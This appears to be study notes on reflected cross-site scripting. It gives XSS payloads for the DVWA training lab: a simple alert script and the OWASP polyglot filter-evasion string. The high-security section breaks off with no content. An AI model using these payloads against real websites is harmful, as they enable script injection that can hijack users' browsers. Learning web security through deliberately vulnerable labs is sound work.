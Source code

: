 ## Cross Site Scripting

**Types Of Croos Site Scipting**

### 1. Reflected XSS

- Non-persistent attack
- The user supplied javascript is taken by the server and sent back to the browser where it gets executed.
- The user is supplying the input and it is getting reflected back immediately

![image-20211015164453181](images/image-20211015164453181.png)

#### Refelected XSS Payload

**DVWA - low security** 

```javascript
<script>alert('abc')</script>
```

**DVWA - medium security**

https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html

- XSS Filter Evasion Cheat Sheet
- XSS Locator (Polygot)

```javascript
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
```

**DVWA - high security**
